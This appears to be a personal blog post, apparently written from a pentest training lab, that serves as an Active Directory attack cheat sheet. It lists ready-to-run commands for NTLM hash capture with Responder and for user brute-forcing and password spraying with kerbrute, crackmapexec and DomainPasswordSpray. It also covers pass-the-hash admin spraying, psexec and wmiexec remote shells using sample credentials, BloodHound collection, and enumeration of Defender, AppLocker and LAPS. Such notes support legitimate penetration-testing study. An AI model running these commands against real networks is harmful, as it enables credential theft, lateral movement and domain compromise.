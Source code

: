```yaml
---
layout: post
title: "AD Resources"
date: 2025-09-08 10:00:00 +0000
categories: [resources]
tags: []
author: "SoftAndoWetto"
---
```


Get a list of all devices that are up
```bash
nmap -sn [IP]
```
  
Capture all network packets on an interface
```bash
sudo tcpdump -i [Interface]
```
  

Passively listens for Windows name resolution traffic and logs potential NTLM(v1/v2) hashes.
```bash
sudo responder -I [Interface] -A
```


Enumerate users in a domain with SMB NULL (First resort)
```bash
crackmapexec smb 172.16.5.5 --users
```


Enumerate users in a domain with SMB NULL
```bash
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```


Enumerate users in a domain with LDAP anonymous
```bash
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "
```


Brute force a list of potential users in the AD (jsmith.txt is a good wordlist)
```bash
kerbrute userenum -d [DOMAIN] --dc [IP] jsmith.txt -o valid_ad_users
```


Enumerates users, groups, shares, and host info on Windows/AD hosts (Run both with and without credentials)
```bash
enum4linux -a -u [USERNAME] -p [PASSWORD] [IP]
```



Pull the password policy from an AD (With credentials)
```bash
crackmapexec smb [IP] -u [USERNAME] -p [PASSWORD] --pass-pol
```


Enumerate password policy with LDAP
```bash
ldapsearch -h [IP] -x -b "DC=[DOMAIN],DC=[DOMAIN EXT]" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```


List all domain users (In Powershell - Requires SYSTEM)
```powershell
Import-Module .\PowerView.ps1
Get-NetUser
```










1 Liner password spray [RPCClient] (Requires file with users named valid_users.txt)
```bash
for u in $(cat valid_users.txt);do rpcclient -U "$u%[PASSWORD]" -c "getusername;quit" [IP] | grep Authority; done
```


1 Liner password spray [Kerbrute] (Requires file with users named valid_users.txt)
```bash
kerbrute passwordspray -d [DOMAIN] --dc [IP] valid_users.txt  [PASSWORD]
```


1 Liner password spray [CrackMapExec] (Requires file with users named valid_users.txt)
```shell-session
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```


Local admin spraying (For password reuse across local admin accounts)
```bash
sudo crackmapexec smb --local-auth [IP]/[SUBNET] -u administrator -H [HASH] | grep +
```

Using DomainnPasswordSpray for password spraying [Windows] (Requires the Host being joined to the domain)

```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
or
```powershell
Import-Module .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -UserList [USERLIST] -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```



Locate the Domain Controller via DNS
```bash
nslookup -type=SRV _ldap._tcp.dc._msdcs.domain.local
```


Locate all DC's in the domain with their IP or Hostnames
```powershell
nltest /dclist:domain.local
```


Returns the DC you are currently authenticated with
```powershell
echo %logonserver%
```


NMAP scan to find DC in a given subnet (Less reliable than the others)

```bash
nmap -p 88,389,445 -sV [IP]/[SUBNET]
```





Create a shell on a given host (MUST have admin creds for that host)
```bash
psexec.py [DOMAIN]/[USER]:'[Password]'@[IP]
```

Create a shell on a given host (MUST have admin creds for that host)
More sneaky as there are no files uploaded, and you get Admin rather than SYSTEM
```bash
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```



Queries for all members of the Domain Admins group
```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
```


Queries for all members of the Privileged Users group
```bash
python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
```





Extracts all data (User sessions, Users, Groups, Object Properties, etc) from a DC
```shell
sudo bloodhound-python -u '[USERNAME]' -p '[PASSWORD]' -ns [DC IP] -d [DC] -c all 
```




















# Enumerating Security Controls

Checking is Windows Defender is active
```powershell
Get-MpComputerStatus
```


Check the AppLocker whitelist for blocked executables
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```


Check whether you are in Constrained Language Mode in powershell
```powershell
$ExecutionContext.SessionState.LanguageMode
```


Finding which groups have **delegated** permissions to read LAPS passwords (Anti lateral movement)
Link: [LAPS Toolkit]([LAPSToolkit/LAPSToolkit.ps1 at master · leoloobeek/LAPSToolkit · GitHub](https://github.com/leoloobeek/LAPSToolkit/blob/master/LAPSToolkit.ps1))
```powershell
Find-LAPSDelegatedGroups
```

Finding which groups have **all**  (including implicit which may be less protected) permissions to read LAPS passwords (Anti lateral movement)
Link: [LAPS Toolkit]([LAPSToolkit/LAPSToolkit.ps1 at master · leoloobeek/LAPSToolkit · GitHub](https://github.com/leoloobeek/LAPSToolkit/blob/master/LAPSToolkit.ps1))
```powershell
Find-AdmPwdExtendedRights
```

Returns a list of computers with LAPS enabled (and their passwords if the user has permission)
```powershell
Get-LAPSComputers
```















Enumerate users on a Domain Controller
```shell
sudo crackmapexec smb [DC IP] -u [USERNAME] -p [PASSWORD] --users
```


Enumerate groups on a Domain Controller
```shell
sudo crackmapexec smb [DC IP] -u [USERNAME] -p [PASSWORD] --groups
```


Enumerate logged on users on a host
```shell
sudo crackmapexec smb [HOST IP] -u [USERNAME] -p [PASSWORD] --loggedon-users
```


Will list all readable files in a given share
```shell
sudo crackmapexec smb [IP] -u [USERNAME] -p [PASSWORD] -M spider_plus --share '[SHARE NAME]'
```
Results will be written to `/tmp/cme_spider_plus/<ip of host>`


